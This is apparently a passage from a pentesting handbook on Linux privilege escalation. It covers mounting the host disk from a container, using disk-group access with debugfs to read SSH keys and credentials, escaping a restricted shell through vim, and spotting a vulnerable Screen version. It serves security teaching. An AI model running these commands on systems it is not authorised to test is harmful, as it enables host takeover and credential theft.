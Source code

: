 <figure><img src="../../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

So to take over the host machine, it is trivial:

```bash
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```

And voilà ! You can now access the filesystem of the host because it is mounted in the `/mnt/hola` folder.

## Disk

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.

## Restricted Shell

{% embed url="https://0xffsec.com/handbook/shells/restricted-shells/" %}

Example:

```bash
vim
:set shell=/bin/bash
:shell
export PATH=/bin:/usr/bin or export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/bin/X11:/usr/games
```

## **Screen Version Identification**

Version 4.5.0 suffers from a privilege escalation vulnerability due to a lack of a permissions check when opening a log file.

```
screen -v
```
